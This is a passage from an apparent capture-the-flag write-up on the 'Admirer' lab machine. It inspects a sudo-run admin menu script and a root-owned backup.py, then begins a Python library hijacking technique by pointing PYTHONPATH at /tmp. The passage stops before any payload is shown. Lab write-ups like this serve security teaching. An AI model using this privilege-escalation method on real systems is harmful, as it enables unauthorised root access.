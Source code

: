 ```bash
         "Backup DB"
         "Quit")

echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```
If we read carefully the source code, we can see how this piece of code creates backups of `/etc/passwd` and `/etc/shadow` at `/var/backups/`, but they are well securized. Also, while performing web backup, it is calling a script called `/opt/scripts/backup.py`:
```shell
waldo@admirer:~$ ls /opt/scripts/backup.py -la
-rwxr----- 1 root admins 198 Dec  2  2019 /opt/scripts/backup.py
```
As part of the `admins` group, we can only read the file's content:
```py
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```
We enumerate the path `/srv/ftp/html` but waldo is not allowed to access to it.

### Python library hijacking
On the previous python code, notice it is importing `make_archive` from `shutil` library. This library is looked up in the python path, which we can see with:
```shell
waldo@admirer:/home$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
waldo@admirer:/home$ ls /usr/lib/python3.5/shutil.py  -la
-rw-r--r-- 1 root root 40048 Sep 27  2018 /usr/lib/python3.5/shutil.py
```
We now know that the library `shutil.py` is at the path `/usr/lib/python3.5/`, but is not writtable by waldo. Instead, we will try to add another folder to `sys.path`, in order to hijack it:
```shell
waldo@admirer:/home$ export PYTHONPATH="/tmp"
waldo@admirer:/home$ python3 -c 'import sys; print(sys.path)'
```